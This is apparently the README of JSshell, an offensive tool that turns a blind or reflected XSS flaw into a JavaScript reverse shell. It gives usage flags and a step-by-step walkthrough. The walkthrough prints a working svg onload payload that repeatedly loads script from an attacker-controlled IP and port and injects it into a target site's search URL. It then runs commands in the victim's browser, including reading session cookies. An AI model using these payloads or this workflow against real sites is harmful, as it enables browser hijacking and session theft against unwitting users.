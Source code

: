 # JSshell (version 3.1)
JSshell - a JavaScript reverse shell. This is used to execute JS code remotely, exploit blind XSS, ...

This tool works for both Unix and Windows operating systems, and it can run on both Python 2 + Python 3. This is 
a big update of JShell - a tool to get a JavaScript shell with XSS by s0med3v. JSshell also doesn't require Netcat (different from JShell).

### New in JSshell version 3.1
Updated in the new version of JShell 3.1:

- New JSshell command: `snippet` -> allows to write a snippet of javascript code

```sh
>>> snippet
Use CTRL+C to finish the snippet

function new() {
    new = 'New update: Support javascript snippet =)';
    confirm(new)
}
>>> 
```
- Quiet mode (for professionals)
- Added `<body>` reverse shell payload
- Fixed some bugs

# Usage
#### Generate JS reverse shell payload:  `-g`
#### Set the local port number for listening and generating payload (By default, it will be set to 4848):  `-p`
#### Set the local source address for generating payload (JSshell will detect your IP address by deault):  `-s`
#### Set timeout for shell connection (if the user exit page, the shell will be pause, and if your set the timeout, after a while without response, the shell will automatically be closed):  `-w`
#### Execute a command after get the shell:  `-c`

#### Example usages:
- `js.py`
- `js.py -g`
- `js.py -p 1234`
- `js.py -s 48.586.1.23 -g`
- `js.py -c "alert(document.cookie)" -w 10`

#### An example for running JSshell:
This is a step-by-step example for how to use JSshell.

First we will generate a reverse JS shell payload and set the shell timeout is 20 seconds:

```
~# whoami
root
~# ls
README.md   js.py
~# python3 js.py -g -w 20
    __
  |(_  _ |_  _  |  |
\_|__)_> | |(/_ |  |
                      v1.0

Payload:
<svg/onload=setInterval(function(){with(document)body.appendChild(createElement("script")).src="//171.224.181.106:4848"},999)>

Listening on [any] 4848 for incoming JS shell ...
```

Now paste this payload to the website (or URL):

`https://vulnwebs1te.com/b/search?q=<svg/onload=setInterval(function(){with(document)body.appendChild(createElement("script")).src="//171.224.181.106:4848"},1248)>`

Access the page and now we will see that we have got the reverse JS shell:

```
    __
  |(_  _ |_  _  |  |
\_|__)_> | |(/_ |  |
                      v1.0

Payload:
<svg/onload=setInterval(function(){with(document)body.appendChild(createElement("script")).src="//171.224.181.106:4848"},999)>

Listening on [any] 4848 for incoming JS shell ...
Got JS shell from [75.433.24.128] port 39154 to DESKTOP-1GSL2O2 4848
$ established
$ the
$ shell
$
$
$ help
JSshell using javascript code as shell commands. Also supports some commands:
help                  This help
exit, quit            Exit the JS shell
$
```
Now let's execute some commands:

```
$ var test = 'controlled'
$ alert(test)
$
```
And the browser got an alert:  `controlled`

```
$ prompt(document.cookie)
$
```
And the browser print the user cookies:  `JSESSION=3bda8...`

```
$ exit
~# whoami
root
~# pwd
/home/shelld3v
~#
```

And we quited!


# Author
This is created by [shelld3v](https://github.com/shelld3v)!

